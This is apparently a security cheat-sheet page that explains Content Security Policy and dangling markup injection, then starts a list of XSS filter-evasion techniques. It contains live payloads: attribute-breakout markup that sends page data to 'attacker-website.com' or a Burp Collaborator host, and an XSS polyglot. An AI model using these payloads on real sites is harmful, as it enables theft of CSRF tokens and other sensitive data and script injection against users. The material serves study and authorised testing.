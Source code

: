- CSP is a browser security mechanism that aims to mitigate XSS and some other attacks. It works by restricting the resources (such as scripts and images) that a page can load and restricting whether a page can be framed by other pages.
- To enable CSP, a response needs to include an HTTP response header called `Content-Security-Policy` with a value containing the policy. The policy itself consists of one or more directives, separated by semicolons.
---
# Dangling markup injection
Dangling markup injection is a technique for capturing data cross-domain in situations where a full cross-site scripting attack isn't possible.
Suppose an application embeds attacker-controllable data into its responses in an unsafe way:
`<input type="text" name="input" value="CONTROLLABLE DATA HERE`
Suppose also that the application does not filter or escape the `>` or `"` characters. An attacker can use the following syntax to break out of the quoted attribute value and the enclosing tag, and return to an HTML context:
`"><img src='//attacker-website.com?`
This payload creates an `img` tag and defines the start of a `src` attribute containing a URL on the attacker's server. Note that the attacker's payload doesn't close the `src` attribute, which is left "dangling". When a browser parses the response, it will look ahead until it encounters a single quotation mark to terminate the attribute. Everything up until that character will be treated as being part of the URL and will be sent to the attacker's server within the URL query string. Any non-alphanumeric characters, including newlines, will be URL-encoded.
The impact is that we may capture CSRF tokens or emails or any sensitive data.

### Bypass img wildcard 
```
"><table background='//your-collaborator-id.burpcollaborator.net?'
```
## NOTE
- The Chrome browser has decided to tackle dangling markup attacks by preventing tags like `img` from defining URLs containing raw characters such as angle brackets and newlines. This will prevent attacks since the data that would otherwise be captured will generally contain those raw characters, so the attack is blocked.

# Evasion techniques
## Navigation
- **[XSS Locator Polygot](#XSS%20Locator%20Polygot)**
- **[Image XSS Using the JavaScript Directive](#Image%20XSS%20Using%20the%20JavaScript%20Directive)**
- **[No Quotes and no Semicolon](#No%20Quotes%20and%20no%20Semicolon)**
- **[Case Insensitive XSS Attack Vector](#Case%20Insensitive%20XSS%20Attack%20Vector)**
- **[HTML Entities](#HTML%20Entities)**
- **[Grave Accent Obfuscation](#Grave%20Accent%20Obfuscation)**
- **[Malformed A Tags](#Malformed%20A%20Tags)**
- **[Malformed IMG Tags](#Malformed%20IMG%20Tags)**
- **[FromCharCode](#FromCharCode)**
- **[Default SRC Tag to Get Past Filters that Check SRC Domain](#Default%20SRC%20Tag%20to%20Get%20Past%20Filters%20that%20Check%20SRC%20Domain)**
- **[Image XSS Using the JavaScript Directive](#Image%20XSS%20Using%20the%20JavaScript%20Directive)**
- **[Decimal HTML Character References](#Decimal%20HTML%20Character%20References)**
- **[INPUT Image](#INPUT%20Image)**
### XSS Locator (Polygot)
This test will execute in multiple contexts including html, script string, js and url.
```js
javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
```